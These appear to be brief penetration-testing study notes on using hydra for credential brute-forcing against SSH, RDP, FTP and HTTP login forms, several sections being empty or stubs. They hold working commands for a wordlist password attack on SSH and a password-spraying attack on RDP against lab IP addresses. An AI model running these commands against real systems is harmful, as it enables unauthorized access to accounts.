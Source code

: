 
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


# FTP
```
ftp://
```


# HTTP GET


# HTTP POST
http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.


